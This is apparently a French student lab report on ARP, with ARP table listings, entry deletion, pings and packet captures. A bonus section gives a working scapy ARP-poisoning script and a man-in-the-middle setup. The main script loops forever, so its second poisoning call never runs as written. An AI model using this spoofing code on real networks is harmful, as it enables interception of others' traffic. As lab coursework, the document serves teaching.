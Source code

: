 # TP3 : 32°13'34"N 95°03'27"W

☀️ Avant de continuer...
```
> ip a
link/ether b8:1e:a4:6c:56:97 brd ff:ff:ff:ff:ff:ff
```
☀️ Affichez votre table ARP

```
arp -a
? (10.33.65.63) at 44:af:28:c3:6a:9f [ether] on wlp3s0
_gateway (10.33.79.254) at 7c:5a:1c:d3:d8:76 [ether] on wlp3s0
```

☀️ Déterminez l'adresse MAC de la passerelle du réseau de l'école

```
arp -a
? (10.33.65.63) at 44:af:28:c3:6a:9f [ether] on wlp3s0
```

☀️ Supprimez la ligne qui concerne la passerelle

```
> sudo arp -d 10.33.79.254
[sudo] password for effect: 
SIOCDARP(dontpub): Network is unreachable
```

☀️ Prouvez que vous avez supprimé la ligne dans la table ARP

```
> arp -a
(elle est vide)
```

☀️ Wireshark

La capture -> `arp1.pcapng`

# II. ARP dans un réseau local

### 1. Basics

☀️ Déterminer

Adresse IP : `192.168.11.211/24`

Adresse MAC : `b8:1e:a4:6c:56:97`

☀️ DIY

nouvelle adresse IP : `192.168.6.0/24`

```
> ip a
2: wlp3s0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether b8:1e:a4:6c:56:97 brd ff:ff:ff:ff:ff:ff
    inet 192.168.6.0/24 scope global wlp3s0
       valid_lft forever preferred_lft forever
    inet6 2a02:8440:6440:373b:99b8:5e2f:9265:4c53/64 scope global temporary dynamic 
       valid_lft 6894sec preferred_lft 6894sec
    inet6 2a02:8440:6440:373b:a671:31ee:6e09:f879/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 6894sec preferred_lft 6894sec
    inet6 fe80::aead:b484:22e8:76d1/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

☀️ Pingz !

```
> ping 192.168.11.7
PING 192.168.11.7 (192.168.11.7) 56(84) bytes of data.
64 bytes from 192.168.11.7: icmp_seq=1 ttl=128 time=172 ms
64 bytes from 192.168.11.7: icmp_seq=2 ttl=128 time=5.49 ms
64 bytes from 192.168.11.7: icmp_seq=3 ttl=128 time=10.1 ms
64 bytes from 192.168.11.7: icmp_seq=4 ttl=128 time=11.4 ms
```

```
> ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=106 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=150 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=69.4 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=91.7 ms
```

### 2. ARP

☀️ Affichez votre table ARP !

```
> arp -a
? (192.168.11.7) at 34:c9:3d:22:97:2d [ether] on wlp3s0
? (192.168.11.30) at 14:5a:fc:7f:13:93 [ether] on wlp3s0
? (192.168.11.32) at 34:c9:3d:22:97:2d [ether] on wlp3s0
_gateway (192.168.11.46) at 96:24:c9:47:ee:dc [ether] on wlp3s0
? (192.168.11.47) at 58:cd:c9:60:e5:fb [ether] on wlp3s0
```

```
> arp -a
(toute vide)
```

☀️ Capture arp2.pcap

La capture -> `arp2.pcapng`

### 3. Bonus : ARP poisoning

(Je suis la victime)

⭐ Empoisonner la table ARP de l'un des membres de votre réseau

Avec le script ci dessous l'attaquant à empoisonner les informations de ma table ARP. L'IP
qui est censé être celle du routeur est donc la sienne :

```
> ip n s
172.20.10.4 dev wlp3s0 lladdr 90:e8:68:15:ac:43 STALE 
172.20.10.1 dev wlp3s0 lladdr 90:e8:68:15:ac:43 REACHABLE 
fe80::60d0:39ff:fef1:3f64 dev wlp3s0 lladdr 62:d0:39:f1:3f:64 router STALE 
2a0d:e487:132f:e506:f40d:223a:e036:824e dev wlp3s0 lladdr 62:d0:39:f1:3f:64 router STALE 
```

```py
from scapy.all import *

def arp_poison(victim_ip, victim_mac, router_ip):
    # Get your own MAC address (attacker's MAC)
    attacker_mac = "90:e8:68:15:ac:43"
    
    # Create an Ethernet frame with the destination MAC as the victim's MAC
    ethernet = Ether(dst=victim_mac)
    
    # Create an ARP response saying that your MAC address (attacker_mac) is the router (router_ip)
    arp_response = ARP(pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=attacker_mac, op='is-at')
    
    # Combine the Ethernet frame and the ARP response
    packet = ethernet / arp_response

    # Send the ARP response packet in a loop to keep poisoning the victim's ARP cache
    while True:
        sendp(packet, verbose=0)
```

⭐ Mettre en place un MITM

```py
target_ip = "172.20.10.5"  # IP of the victim
target_mac = "b8:1e:a4:6c:56:97"  # MAC of the victim
spoof_ip = "172.20.10.1"  # IP you want to spoof (usually the gateway)

target_ip2 = "172.20.10.1"  # IP of the victim
target_mac2 = "62:d0:39:f1:3f:64"  # MAC of the victim
spoof_ip2 = "172.20.10.5"  # IP you want to spoof (usually the gateway)

arp_poison(target_ip, target_mac, spoof_ip)
arp_poison(target_ip2, target_mac2, spoof_ip2)
```

Il a pu dans ce cas là récupérer et voir mes requêtes vers les différents site web que je consultais.

## *Ecrit par eff4ctt*